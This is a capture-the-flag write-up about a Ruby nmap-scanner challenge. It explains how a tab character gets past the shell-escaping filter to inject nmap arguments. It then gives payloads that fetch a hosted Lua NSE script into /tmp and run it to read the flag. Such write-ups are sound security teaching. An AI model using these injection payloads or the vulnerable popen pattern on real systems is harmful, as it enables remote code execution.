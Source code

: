 + This challenge allows us to scan an IP:PORT pair using the nmap tool. The goal of this kind of challenge is used to achieve RCE.
+ In scanner.rb:
```
post '/' do
    input_service = escape_shell_input(params[:service])
    hostname, port = input_service.split ':', 2
    begin
      if valid_ip? hostname and valid_port? port
        # Service up?
        s = TCPSocket.new(hostname, port.to_i)
        s.close
        # Assuming valid ip and port, this should be fine
        @scan_result = IO.popen("nmap -p #{port} #{hostname}").read
      else
        @scan_result = "Invalid input detected, aborting scan!"
      end
    rescue Errno::ECONNREFUSED
      @scan_result = "Connection refused on #{hostname}:#{port}"
    rescue => e
      @scan_result = e.message
    end
```
+ code checks if both the hostname and port are valid using the valid_ip? and valid_port?
+ If both the IP address and port are valid, it attempts to create a TCP socket connection to the specified hostname and port
+ If the connection is successful, it immediately closes the socket and proceeds to run an Nmap scan using the IO.popen function. The Nmap command scans the specified port on the specified host.

In scanner_helper.rb:
```
def valid_port?(input)
  !input.nil? and (1..65535).cover?(input.to_i)
end

def valid_ip?(input)
  pattern = /\A((25[0-5]|2[0-4]\d|[01]?\d{1,2})\.){3}(25[0-5]|2[0-4]\d|[01]?\d{1,2})\z/
  !input.nil? and !!(input =~ pattern)
end

# chatgpt code :-)
def escape_shell_input(input_string)
  escaped_string = ''
  input_string.each_char do |c|
    case c
    when ' '
      escaped_string << '\\ '
    when '$'
      escaped_string << '\\$'
    when '`'
      escaped_string << '\\`'
    when '"'
      escaped_string << '\\"'
    when '\\'
      escaped_string << '\\\\'
    when '|'
      escaped_string << '\\|'
    when '&'
      escaped_string << '\\&'
    when ';'
      escaped_string << '\\;'
    when '<'
      escaped_string << '\\<'
    when '>'
      escaped_string << '\\>'
    when '('
      escaped_string << '\\('
    when ')'
      escaped_string << '\\)'
    when "'"
      escaped_string << '\\\''
    when "\n"
      escaped_string << '\\n'
    when "*"
      escaped_string << '\\*'
    else
      escaped_string << c
    end
  end

  escaped_string
end
```
+ `valid_port` function checks if the input is not nil and the input value is within the range of valid port numbers (1 to 65535).
+ `valid_ip` functions uses regular expressions to validate if the provided input is a valid IPv4 address. It returns true if the input is not nil and matches the defined IPv4 pattern.
+ `escape_shell_input` function returns a new string with the escaped characters, ensuring that the input string is safe to use in shell commands. This particular function escapes a lot of possible cmd injections possibilities.
+ We can observe that Tab isn't blacklisted, we can use %09 to give options
+ We can use tab to add arguments.
+ Script feature of nmap: The Nmap Scripting Engine (NSE) is one of Nmap's most powerful and flexible features. It allows users to write (and share) simple scripts to automate a wide variety of networking tasks. Those scripts are then executed in parallel with the speed and efficiency you expect from Nmap. Nmap scripts are written in Lua
+ so our goal is to upload a lua script and then execute it.
+ We have argument injection via tab(%09) character
![image](https://github.com/av4nth1ka/My-Writeups/assets/80388135/1854a9a1-0cf9-483f-9225-fac082f30e43)
+ Now we need to read the flag, according to GTFObins we can try to execute system commands via --script option
![image](https://github.com/av4nth1ka/My-Writeups/assets/80388135/58413cf3-9b14-4f29-9bc2-4fd365d987b2)
But due to the escape character filter, this wont work
+ We can download arbitrary files using to target machine via `http-fetch`.
![image](https://github.com/av4nth1ka/My-Writeups/assets/80388135/0f5238c7-689a-42ba-b2bb-02e20730f13e)

payload: service=172.17.0.1:80%09--script%09http-fetch%09--script-args%09http-fetch.destination=/tmp,http-fetch.url=/payload.nse
`payload.nse`
os.execute('cat /flag-*')

+ Host the payload.nse payload script via Python’s http.server module & Upload the payload script via Nmap’s http-fetch module
  ![image](https://github.com/av4nth1ka/My-Writeups/assets/80388135/adb2c361-80ea-48a7-aa4a-dfa2128be73c)
  Now run the uploaded script:
  ```
  service=172.17.0.1:80%09--script%09/tmp/172.17.0.1/80/payload.nse
  ```
  Thus we get the flag locally!



## Reference:
+ https://gtfobins.github.io/gtfobins/nmap/#file-download
+ https://nmap.org/book/nse.html
+ https://nmap.org/nsedoc/scripts/http-fetch.html

